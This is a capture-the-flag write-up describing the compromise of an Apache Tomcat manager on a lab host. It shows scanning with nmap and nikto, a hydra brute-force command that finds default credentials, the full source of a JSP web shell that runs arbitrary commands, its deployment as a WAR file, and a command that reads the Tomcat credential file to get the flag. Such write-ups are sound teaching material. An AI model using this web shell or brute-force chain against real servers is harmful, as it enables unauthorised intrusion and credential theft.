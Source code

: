# **War of Tomcat** Write Up

**Apache Tomcat** is a open-source web server, provides platform for running Java-based web applications and supports several Java technologies.

**War** (Web Application Archives) is a package format used to distribute a web application. It contains all the components needed to run a web application, such as HTML files, JavaServer Pages (JSPs), servlets, Java classes, libraries (JAR files), and configuration files.

**Tomcat uses WAR** files to deploy web applications. When you deploy a WAR file to Tomcat, it extracts the contents and sets up the web application on the server.

## Web First Look:

![image-20240912003139430](images/53.png)

Tomcat has a management interface that is usually available at :

```
http://10.214.160.13:10007/manager/html
```

![image-20240912003139430](images/54.png)

After curling the html I found this:

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
 <head>
  <title>401 Unauthorized</title>
  <style type="text/css">
    <!--
    BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;font-size:12px;}
    H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;}
    PRE, TT {border: 1px dotted #525D76}
    A {color : black;}A.name {color : black;}
    -->
  </style>
 </head>
 <body>
   <h1>401 Unauthorized</h1>
   <p>
    You are not authorized to view this page. If you have not changed
    any configuration files, please examine the file
    <tt>conf/tomcat-users.xml</tt> in your installation. That
    file must contain the credentials to let you use this webapp.
   </p>
   <p>
    For example, to add the <tt>manager-gui</tt> role to a user named
    <tt>tomcat</tt> with a password of <tt>s3cret</tt>, add the following to the
    config file listed above.
   </p>
<pre>
&lt;role rolename="manager-gui"/&gt;
&lt;user username="tomcat" password="s3cret" roles="manager-gui"/&gt;
</pre>
   <p>
    Note that for Tomcat 7 onwards, the roles required to use the manager
    application were changed from the single <tt>manager</tt> role to the
    following four roles. You will need to assign the role(s) required for
    the functionality you wish to access.
   </p>
    <ul>
      <li><tt>manager-gui</tt> - allows access to the HTML GUI and the status
          pages</li>
      <li><tt>manager-script</tt> - allows access to the text interface and the
          status pages</li>
      <li><tt>manager-jmx</tt> - allows access to the JMX proxy and the status
          pages</li>
      <li><tt>manager-status</tt> - allows access to the status pages only</li>
    </ul>
   <p>
    The HTML interface is protected against CSRF but the text and JMX interfaces
    are not. To maintain the CSRF protection:
   </p>
   <ul>
    <li>Users with the <tt>manager-gui</tt> role should not be granted either
        the <tt>manager-script</tt> or <tt>manager-jmx</tt> roles.</li>
    <li>If the text or jmx interfaces are accessed through a browser (e.g. for
        testing since these interfaces are intended for tools not humans) then
        the browser must be closed afterwards to terminate the session.</li>
   </ul>
   <p>
    For more information - please see the
    <a href="/docs/manager-howto.html">Manager App HOW-TO</a>.
   </p>
 </body>

</html>
```

after attempting to put the username and password **tomcat:s3cret** it is not working, perhaps the problem is because the password might got changed recently.

So the next step was by using the nmap to check the port:

```bash
nmap -sV -p 10007 --script=http-server-header,http-title 10.214.160.13
```

![image-20240912003139430](images/55.png)

here, it just confirms us that the website is using ***Apache Tomcat / Coyote JSP engine 1.1***

After running nikto:

```bash
nikto -h http://10.214.160.13:10007
```

![image-20240912003139430](images/56.png)

After running hydra to brute force the tomcat:

```bash
hydra -L tomcat-users.txt -P tomcat-password.txt http-get://10.214.160.13:10007/manager/html
```



![image-20240912003139430](images/57.png)

turns out it is ***tomcat:tomcat***

![image-20240912003139430](images/58.png)

and now we are inside the Tomcat Web Application Manager:

now lets create a **WAR(Web Application Archive)** and deploy it to the server,

First I create the **.jsp** file: (.jsp is a java file to be embed to html page to create dynamic content or display)

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

This code is intended to inject a Web Shell Code, but first we need to convert it to a **WAR** file using the jar command,

![image-20240912003139430](images/59.png)

We now have the **webshell.war** file, next we uploaded in the web application manager

![image-20240912003139430](images/60.png)

After uploading, let's directly access the url 

```
http://10.214.160.13:10007/webshell/
```

then we can access the webshell we just injected

by applying the command 

```
cat conf/tomcat-users.xml
```

we can access where the flag is hidden:

![image-20240913220547121](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240913220547121.png)

After further inspection I found the flag inside the inspect source tab hidden in the role tag

Flag : **AAA{t0mcat_wiTh_manager_1s_dangerous_qq_GROUP_~~}  ~~ is hidden for privacy purpose**
